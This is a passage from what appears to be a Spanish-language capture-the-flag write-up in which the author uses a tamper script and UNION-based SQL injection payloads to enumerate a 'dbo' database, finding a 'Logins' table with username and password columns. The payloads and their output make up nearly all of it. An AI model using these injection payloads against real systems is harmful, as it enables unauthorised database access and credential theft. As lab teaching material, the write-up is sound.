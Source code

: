 Enumero las tablas para la base de datos dbo

```null
python3 sqli_tampers.py
-> test' union select 1,table_name,3,4,5 from information_schema.tables where table_schema="dbo"-- -
null
```

Las comillas dobles dan problemas, así que utilizaré simples

```null
python3 sqli_tampers.py
-> test' union select 1,table_name,3,4,5 from information_schema.tables where table_schema="dbo"-- -
null
-> test' union select 1,table_name,3,4,5 from information_schema.tables where table_schema='dbo'-- -
[
     {
          "id": 1,
          "name": "Colleagues",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "Logins",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```

La tabla "Colleagues" me imagino que corresponde a los usuarios se veían desde la web. Pero la otra todavía no la he visto

```null
-> test' union select 1,column_name,3,4,5 from information_schema.columns where table_schema='dbo' and table_name='Logins'-- -
[
     {
          "id": 1,
          "name": "id",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "password",
          "position": "3",
          "email": "4",
          "src": "5"
     },
     {
          "id": 1,
          "name": "username",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```
